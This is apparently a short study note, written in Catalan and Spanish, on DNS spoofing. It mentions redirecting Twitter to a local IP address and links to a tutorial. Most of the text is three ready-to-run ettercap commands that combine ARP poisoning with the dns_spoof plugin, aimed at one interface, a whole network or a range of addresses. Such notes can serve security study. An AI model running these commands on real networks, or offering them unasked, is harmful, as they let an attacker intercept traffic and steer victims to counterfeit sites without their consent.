 ```
# Host local

Connectar-se a Twitter - Farà la redirecció a 10.200.243.137


```

<div style="align: center; width: 100%">
    <img src="./Photos/DNSSpoof.png" />
</div>

# Ettercap per CLI

- https://esgeeks.com/tutorial-ettercap-ejemplos/

Utiliza el siguiente comando para lanzar una suplantación de DNS:

sudo ettercap -T -q -P dns_spoof -i wlan0 -M arp /// ///
#Otro comando, para toda la red
sudo  ettercap -T -q -M arp -i wlan0 -P dns_spoof -p //192.168.1.1/
#Para un rango de red
sudo ettercap -T -q -M arp -i wlan0 -P dns_spoof //192.168.1.1/ 192.168.1.51/

# Explicació resumida:

ARP Spoof - DNS Cache Poisoning
